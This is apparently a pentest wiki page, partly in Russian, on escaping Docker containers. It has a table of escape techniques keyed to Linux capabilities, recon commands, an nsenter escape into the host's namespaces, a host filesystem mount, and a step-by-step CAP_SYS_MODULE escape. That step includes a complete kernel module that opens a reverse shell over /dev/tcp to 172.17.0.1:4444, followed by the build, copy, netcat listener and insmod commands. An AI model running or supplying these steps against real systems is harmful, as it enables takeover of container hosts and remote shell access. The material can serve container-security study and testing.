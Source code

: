 # Docker Escape

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

| **ID** | **Techniques Name**              | **Minimal Linux Capabilities**   |
| ------ | -------------------------------- | -------------------------------- |
| 1      | Mount the host filesystem        | SYS\_ADMIN                       |
| 2      | Use a mounted docker socket      | No capability is required        |
| 3      | Process Injection                | SYS\_PTRACE                      |
| 4      | Adding a malicious kernel module | SYS\_MODULE                      |
| 5      | Reading secrets from the host    | DAC\_READ\_SEARCH                |
| 6      | Overriding files on host         | DAC\_READ\_SEARCH, DAC\_OVERRIDE |
| 7      | Abusing notify on release        | SYS\_ADMIN, DAC\_OVERRIDE        |

### Recon <a href="#privileged--hostpid" id="privileged--hostpid"></a>

Once we are in the container, we can perform capability discovery to determine which privileges are allowed in the container. The container capabilities can be viewed by reading the content of the main container process (PID = 1) status from within the container:&#x20;

```bash
root@2416b7f009ee:/proc grep Cap /proc/1/status
CapInh: 00000000a80425fb
CapPrm: 00000000a80425fb
CapEff: 00000000a80425fb
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000
```

* `CapInh` — Inheritable capabilities (разрешения, которые могут наследовать потомки).
* `CapPrm` — Permitted capabilities (разрешения, которые могут использоваться задачей).
* `CapEff` — Effective capabilities (текущие действующие разрешения).
* `CapBnd` — Bounding capabilities (ограничивающие привилегии. _до Linux 2.6.25 ограничивающий набор был общесистемным атрибутом, общим для всех потоков, предназначенным для описания набора, за пределы которого разрешения расширяться не могут. В настоящее время это набор для каждой задачи и является лишь частью логики execve_).
* `CapAmb` — Ambient capabilities (окружающие привилегии. добавлены, чтобы легче предоставлять разрешения не-root пользователю, без использования setuid или файловых разрешений).

**Decode**:

```bash
capsh --decode=00000000a80425fb
```

### Privileged + hostPID <a href="#privileged--hostpid" id="privileged--hostpid"></a>

With these permissions you can just **move to the namespace of a process running in the host as root** like init (pid:1) just running:&#x20;

`nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

### Docker socket

```sh
#default path to docker socket
ls -la /var/run/docker.sock

#search sockets
find / -name "*.sock"
```

### Arbitrary Mounts

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### Побег из контейнера используя CAP\_SYS\_MODULE

Создадим два файла: `reverse_shell.c` и `Makefile`

Содержимое файла `reverse_shell.c`:

```c
#include <linux/kmod.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
static char command[50] = "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1";
char* argv[] = {"/bin/bash","-c", command, NULL};
static char* envp[] = {"HOME=/",NULL};
static int __init connect_back_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit connect_back_exit(void){
printk(KERN_INFO "Exiting\n");
}
module_init(connect_back_init);
module_exit(connect_back_exit);

MODULE_LICENSE("GPL");
```

**Большое пояснение**&#x20;

_Данный модуль ядра вызывает программу пространства пользователя /bin/bash из ядра с помощью call\_usermodehelper. argv — это список аргументов в массиве. Первый элемент — это программа (/bin/bash), которое мы хотим выполнить, и за ней следует список аргументов. Последний элемент является терминатором NULL, который указывает на конец списка._

_envp — следующая необходимая переменная. Это массив окружения, представляющий собой список параметров, определяющий среду выполнения для приложения пользовательского пространства. В этом примере мы определили один параметр HOME для оболочки, и этот список заканчивается терминирующей записью NULL, как и argv._

_Последний аргумент call\_usermodehelper — UMH\_WAIT\_EXEC. Это необходимо для того, чтобы указать, что запрашивающий хочет дождаться запуска приложения пользовательского пространства, но не завершить его._

_Наконец, мы используем IP-адрес 172.17.0.1 в качестве IP-адреса прослушивателя, поэтому этот модуль попытается сделать обратное подключение к этому IP-адресу через порт 4444. Данный ip-адрес может отличаться, но в моем случае это 172.17.0.1. Проверить ваш ip-адрес интерфейса docker0 можно командой ip a или ifconfig docker0._

**Конец большого пояснения**

Содержимое `Makefile`:

```
test@test:~/revershell_module$ cat Makefile 
obj-m += reverse_shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Запустите команду make в репозитории, на выходе вы должны получить .ko файл.

Запустите контейнер с --privileged флагом в deteached режиме и скопируйте туда .ko файл:

```bash
docker run --privileged -itd alpine
test@test:~/revershell_module$ docker cp  reverse_shell.ko friendly_elion:.
Preparing to copy...
Copying to container - 32.77kB
Copying to container - 64.51kB
Successfully copied 64.51kB to friendly_elion:.
```

Запустите еще один терминал и начните прослушивание на порту 4444 с помощью утилиты netcat:

```bash
nc -lvp 4444 Listening on 0.0.0.0 4444
```

А теперь самое время загрузить наш модуль ядра внутри контейнера :)

```bash
insmod reverse_shell.ko
```
